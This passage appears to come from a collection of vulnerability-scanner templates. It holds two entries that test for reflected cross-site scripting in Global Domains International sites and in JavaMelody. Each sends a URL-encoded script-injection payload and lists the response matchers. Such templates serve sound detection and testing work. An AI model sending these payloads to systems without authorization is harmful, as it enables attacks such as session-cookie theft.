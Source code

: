 **Type - status**
- status
    1. 200

---
# Global Domains International - Cross-Site Scripting
## Description
- Sites hosted by Global Domains International, Inc. have cross-site scripting and directory traversal vulnerabilities.

- severity - high
- tags - globaldomains,xss,packetstorm
## Requests
- Method - GET
### URL
- {{BaseURL}}/index.dhtml?sponsor=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# JavaMelody - Cross-Site Scripting
## Description
- JavaMelody contains a cross-site scripting vulnerability via the monitoring parameter. An attacker can execute arbitrary script in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,javamelody
## Requests
- Method - GET
### URL
- {{BaseURL}}/monitoring?part=graph&graph=usedMemory%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers
